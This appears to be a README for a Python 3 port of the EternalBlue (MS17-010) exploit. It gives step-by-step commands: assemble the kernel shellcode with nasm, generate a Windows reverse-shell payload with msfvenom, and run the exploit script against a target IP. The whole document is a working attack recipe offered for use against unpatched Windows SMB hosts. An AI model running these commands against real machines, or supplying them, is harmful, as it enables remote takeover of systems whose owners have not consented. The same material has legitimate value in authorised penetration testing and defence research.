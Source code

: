 # EternalBlue-in-Python3

How to use

git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git

Compiling the shellcode(s)

X64
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin

X86
nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin


Create a Bin

X64
msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin

X86
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin


Exploit

python3 eternal-blue.py TARGET-IP final.bin
